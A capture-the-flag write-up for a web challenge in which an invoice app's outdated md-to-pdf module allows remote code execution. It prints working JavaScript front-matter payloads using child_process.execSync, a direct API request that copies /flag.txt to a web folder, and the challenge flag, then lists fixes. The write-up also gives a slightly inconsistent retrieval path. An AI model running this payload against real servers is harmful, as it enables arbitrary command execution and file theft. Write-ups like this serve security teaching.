



# [Cyber Apocalypse](index.md) - Web - Blinkerfluids

> Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?




In this challenge, a web application allows the user to create a markdown based invoice, and it will convert it to PDF. 

We are given a copy of the source code, so the first thing I do is explore that.

The web app is a docker container that runs a `node.js` based javascript web app.

The `Dockerfile` tells us that the flag can be found at /flag.txt:
```Dockerfile
# Add flag
COPY flag.txt /flag.txt
```

The file `MDHelper.js` contains code that uses the `md-to-pdf` module to convert a MarkDown document to a PDF.

```javascript
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 
                }
            );
            resolve(id);
        } catch (e) {
            reject(e);
        }
    });
}

module.exports = {
    makePDF
};
```
We can see that it dumps the finished PDF files in `./static/invoices/`.

A quick google search for "md-to-pdf exploits" leads me to numerous sites describing a Remote Code Execution vulnerability in this module prior to version `5.0.0`. The `package.json` file tells me that the version of this plugin that the app is using is `4.1.0`, so we should be able to use this to grab the flag.

The code in `MDHelper` doesn't appear to do any sanitization of the input, it just takes the raw input from the API endpoint and runs it through md-to-pdf. 

The proof of concept code for this exploit tells me that if I give it the following payload, I can run arbitrary commands on the server:
```
---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE
```
Just typing this into the website produces an error.



There is likely some sanitization code on the client-size (I didn't check), but I didn't see any on the API side when looking in the code, so lets try talking directly to the API.

I used [Insomnia](https://insomnia.rest) to send the following request body directly to `http://challenge-ip-and-port/api/invoice/add`. I had to replace the double-quotes with single-quotes, from the proof of concept code.
```json
{
    "markdown_content" : "---js\n((require('child_process')).execSync('cat /flag.txt > static/invoices/flag.txt'))\n---RCE"
}
```



The response I got back was:
```json
{
    "message" : "Invoice saved successfully!"
}
```

Now all I needed to do was to visit `http://challenge-ip-and-port/static/flag.txt` to view the flag.

```
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```

I had originally tried to coax it into putting the flag data into the PDF, but realized I could just copy the file directly to a web-viewable directory and ignore the PDF.

This exploit could have been thwarted by:
 - Updating md-to-pdf to version 5.0.0 or above
 - Sanitizing user input in the API controller to only allow MarkDown
 - Running the app using a limited user account in the Docker container and setting proper permissions for sensitive files in the container.

